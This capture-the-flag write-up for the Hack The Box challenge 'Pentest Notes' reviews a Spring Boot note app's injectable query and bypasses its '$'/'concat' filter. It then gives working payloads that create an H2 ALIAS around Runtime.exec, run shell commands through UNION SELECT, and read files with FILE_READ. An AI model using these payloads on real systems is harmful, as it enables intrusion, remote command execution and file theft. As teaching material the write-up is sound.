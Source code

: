 # Pentest Notes

![Pentest Notes - thumbnail](/ctf/hack-the-box/challenges/web/pentest-notes/thumbnail.gif)

## Box description

People-first web application projects are always a boring, like a note or a tic tac toe game, so I have created an
upgraded version called 'Pentest Note'!

## Challenge Description

This challenge presents us with a web application built using **Spring Boot**, which provides a simple interface for
registration and login. Upon logging in, we are shown three notes:

![Pentest Checklist](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-checklist.png)

Clicking on each note redirects us to a page displaying the content of that specific note:

![Pentest Note](/ctf/hack-the-box/challenges/web/pentest-notes/pentest-note.png)

## Code Review

### NoteController.java

The `NoteController.java` file handles note retrieval based on a `name` parameter passed in an HTTP request:

```java
@RestController
@RequestMapping("/api")
public class NotesController {

    [...]

    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
}
```

Key Observations:

- The `noteByName` method takes in a `name` parameter and checks if the user is logged in. If not, it returns an
  unauthorized response.
- It further checks if the `name` parameter contains the character `$` or the term `concat`, blocking requests
  containing either.
- The `name` parameter is then passed directly into a SQL query without sanitization, making the query vulnerable to SQL
  Injection.

### Aplication.properties

The application uses an H2 in-memory database to store the notes, as indicated by the configuration in
`application.properties`:

```properties
spring.application.name=PentestNotes
spring.datasource.url=jdbc:h2:mem:notedb
spring.datasource.driverClassName=org.h2.Driver
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
spring.jpa.defer-datasource-initialization=true
spring.http.encoding.charset=UTF-8
spring.mvc.view.charset=UTF-8
```

Searching for **H2 database** and **SQL injection** references online, we find
an [h2-exploit script](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed) that can assist in exploiting
this
vulnerability.

## Exploitation - SQL Injection

### Initial Testing

To verify the SQL injection vulnerability, we send a request with a payload containing a single quote `'` in the `name`
parameter. This generates an error, confirming that the input is processed directly in the SQL query.

### Proof of Concept (PoC)

To test further, we use a classic SQL injection payload:

```sql
1' or '1'='1
```

The application returns the following response:

```
[
    {
        "Note" : "One  ' to rule them all",
        "ID" : 1,
        "Name" : "SQL Injection"
    },
    {
        "Note" : "Script alert 1 !!!!!!!!!",
        "ID" : 2,
        "Name" : "Cross Site Scripting"
    },
    {
        "Note" : "IDK, can you tell me?                   ¯\\_(ツ)_/¯",
        "ID" : 3,
        "Name" : "Skill issue"
    }
]
```

The response reveals that the injection successfully bypassed the query, displaying all notes in the database. This
confirms the SQL injection vulnerability.

### Creating an Alias for Code Execution

To fully exploit this, we can use **H2’s ALIAS** feature to create a Java alias that allows command execution. However,
since `$` is restricted in the `name` parameter, we modify the typical alias creation syntax by using `'` instead of
`$`.

#### Modified Alias Creation:

```sql
CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Using the following SQL injection payload, we inject the alias into the database:

```sql
1'; CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }'; -- -
```

Upon receiving a `200 OK` response, we confirm that the alias was successfully created.

### Executing Commands with the Alias

With the alias created, we can now use `UNION SELECT` to invoke `EXECVE` and execute system commands. For example, to
list
the root directory and locate the flag, we use:

```sql
1' UNION SELECT NULL, NULL, EXECVE('ls /') --
```

The response shows:

```
[
    {
        "Note" : "app\nbIK4tYUmPNmp_flag.txt\nbin\nboot\ndev\netc\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n",
        "ID" : null,
        "Name" : null
    }
]
```

This output reveals the flag file `bIK4tYUmPNmp_flag.txt`.

#### Reading the Flag file

To read the contents of `bIK4tYUmPNmp_flag.txt`, we use the following payload:

```sql
1' UNION SELECT NULL, NULL, EXECVE('cat /bIK4tYUmPNmp_flag.txt') --
```

Alternatively, we can also use H2’s built-in `file_read()` method to read files, along with the `cast()` method to
convert the output to a string format:

```sql
1' UNION SELECT NULL, NULL, CAST(FILE_READ('/bIK4tYUmPNmp_flag.txt', NULL) AS VARCHAR) --
```

The response:

```
[
    {
        "Note" : "HTB{f4k3_fl4g_f0r_t35t1ng}",
        "ID" : null,
        "Name" : null
    }
]
```

We successfully retrieved the fake flag!
We can now use the same technique to get the real flag.

![Pentest Notes - pwned](/ctf/hack-the-box/challenges/web/pentest-notes/pwned.png)

## References

- [H2 Database - Doc](https://www.h2database.com/html/main.html)
- [H2 Database - Exploit](https://gist.github.com/h4ckninja/22b8e2d2f4c29e94121718a43ba97eed)
- [dotCMS 5.1.5: Exploiting H2 SQL injection to RCE](https://www.sonarsource.com/blog/dotcms515-sqli-to-rce/)
- [Portswigger - SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
